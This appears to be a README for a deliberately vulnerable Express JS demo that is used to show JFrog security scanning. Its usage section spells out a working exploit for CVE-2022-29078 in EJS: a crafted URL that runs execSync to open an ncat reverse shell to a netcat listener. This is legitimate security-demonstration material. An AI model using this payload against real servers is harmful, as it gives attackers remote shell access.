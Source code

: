 # DevSecOps Days demo

## Overview
This a demo Express JS application to illustrate how a critical vulnerability can be exploited and how it could have been detected and remediated using [Jfrog Advanced Security](https://jfrog.com/advanced-security/).


   <img src="https://github.com/muldos/vuln-express/raw/master/images/home.png" alt="Home page overview" width="100%" style="margin: 20px;"/>

## Build the project and the docker image

Build the project

`npm install`

Run it locally

`npm start`

Build the docker image

`docker build . -t vuln-ejs:latest`

Run it

`docker run -p 3000:3000 vuln-ejs:latest`

## Usage

1 - With netcat start listening on a given host, on the port 1337 for example

`nc -lv 1337`

Then we will exploit CVE-2022-29078 RCE to create a remote shell by issuing the following command in the container

```ncat host.docker.internal 1337 -e /bin/bash```

Note : pay attention that the netcat command may differs between the host OS & the container's distro (in macosx is it `nc`, while in the container it is `ncat`)


2 - To do that you will exploit the vulnerabilities using the following url 

`http://localhost:3000/?id=You&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync(%27ncat%20host.docker.internal%201337%20-e%20/bin/bash%27);s`

Replace `host.docker.internal` if needed, to open your remote shell where your step 1 netcat processing is listening.

![Exploit overview](/images/exploited.png)

To trigger the exploit: 

open a terminal and run 

`nc -lv 1337`

Then use the link in the application to open the web shell.
